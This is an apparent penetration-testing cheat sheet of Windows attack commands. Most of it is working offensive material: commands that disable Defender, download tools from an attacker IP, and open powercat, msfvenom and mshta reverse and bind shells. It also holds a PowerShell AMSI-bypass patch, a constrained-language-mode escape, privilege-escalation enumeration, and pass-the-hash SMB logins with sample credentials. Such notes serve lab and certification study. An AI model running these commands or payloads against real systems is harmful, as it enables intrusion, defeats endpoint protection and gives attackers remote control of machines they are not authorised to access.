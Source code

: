 - Disable Defender
    - Set-MpPreference -DisableRealtimeMonitoring $true
- C compile to exe in linux `i686-w64-mingw32-gcc adduser.c -o adduser.exe`
  
# Windows file transfers
- Powershell
    -   `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/wget.exe','C:\Windows\Temp\wget.exe')"`
- Recieve file with powercat(send file with nc) `powercat -c 10.10.10.10 -p 443 -i file.txt`


# Windows shells
- Kali has nc.exe at /usr/share/windows-resources/binaries/nc.exe
- C# compile + run
    - `C:\windows\microsoft.net\framework64\v4.0.30319\csc.exe /t:exe /out:C:\windows\temp\rev.exe C:\windows\temp\rev.cs`
- Powershell 
    - [Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)
    - [Powershell-OneLinerReverseShell](https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/2c6e4a2d6fd72ba0f103cce2afa3b492e347edc2/powershell_reverse_shell.ps1)
    - Base64 encode powershell in linux and execute with -e `Cat shell.ps1 | iconv -t utf-16le | base64 -w 0`
    - [Environment]::Is64BitProcess
    - powershell -ep bypass -noprofile -WindowStyle Hidden -e UYGfxemu...
- Powercat
    - Generate reverse shell `powercat -c 10.10.10.10 -p 443 -e cmd.exe -g`
    - Encoded reverse shell `powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge`
    - Reverse shell `powercat -c 10.10.10.10 -p 443 -e cmd.exe`
    - Bind shell `powercat -l -p 443 -e cmd.exe`
    - Listener `powercat -l -p 443`
- Msf
    -   Powershell `msfvenom -p cmd/windows/reverse_powershell lhost=10.10.10.10 lport=80`
    -   MSHTA
        -   use exploit/windows/misc/hta_server
        -   mshta.exe hxxp://10.10.65.86:8080/VlHPpQahHBNkkeX.hta  
# Bypass
1. AMSI
```
$Win32 = @"
using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@
Add-Type $Win32
$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
2. ConstrainedLanguage mode
`Write-Host $ExecutionContext.SessionState.LanguageMode`
```
If ( $ExecutionContext.SessionState.LanguageMode -eq "ConstrainedLanguage") {

  Set-ItemProperty 'hklm:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -name '__PSLockdownPolicy' -Value 8

  Start-Process -File PowerShell.exe -Argument "-file $($myinvocation.mycommand.definition)"

  Break

}
```

# Windows privilege escalation
- whoami
- net user
- User member of which groups `net user USERNAME`
- Get hostname to understand functionality of box `hostname`
- Get system info `systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`
- Running process `tasklist /SVC`
- Get Process statsus `wmic service where caption="Serviio" get name, caption, state, startmode`
- Start/Stop service `net start Serviio``net stop Serviio`
- Get networking info `ipconfig /all` `route print`
- Networking connections `netstat -ano`
- Firewall
	- current profile for firewall `netsh advfirewall show currentprofile`
	- Firewall rules `netsh advfirewall firewall show rule name=all`
- Scheduled Tasks `schtasks /query /fo LIST /v`
- Installed applications `wmic product get name, version, vendor`
- Security patches `wmic qfe get Caption, Description, HotFixID, InstalledOn`
- Writable files
	- `accesschk.exe -uws "Everyone" "C:\Program Files"`
	- `Get-ChildItem "C:\Program Files" - Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}`
- File permissions with Icacls
	- `icacls "C:\Program Files\Serviio\bin\ServiioService.exe"`
	- F M RX R W = Full Modify Read&Execute Read-only Write-only
- Unmounted disks `mountvol`
- Windows Drivers
	- `driverquery /v` searchsploit the driver name
	- `driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path`
	- `Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}`
- Auto elevate `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer` `reg queryHKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`
- Get intigrity of session(High/Medium/Low in bottom of o/p) `whoami /groups`
- Run as diffrent user `powershell.exe Start-Process cmd.exe -Verb runAs`
- whoami /priv
	- SeShutdownPrivilege = We can restart `shutdown /r /t 0`
 
- Unquoted Service Paths `wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """`
- 

### SMB with creds/hashes
- Login with creds
	- `psexec.py administrator:Password1@10.0.0.10`
	- `smbexec.py administrator:carolina@10.0.0.169`
	- `winexe -U administrator%alice_123321 //10.0.0.6 'whoami'`
	- `evil-winrm -u administrator -p rocknroll_123321 -i 10.0.0.192`
- Login with hash
    - `pth-winexe -U user%NTLM_HASH //10.10.10.10 cmd.exe`
    - `python smbclient.py -hashes 00000000000000000000000000000000:3CAC6D4B3A7E5014E32EB12EF0C75476 Domain/Administrator@IP`
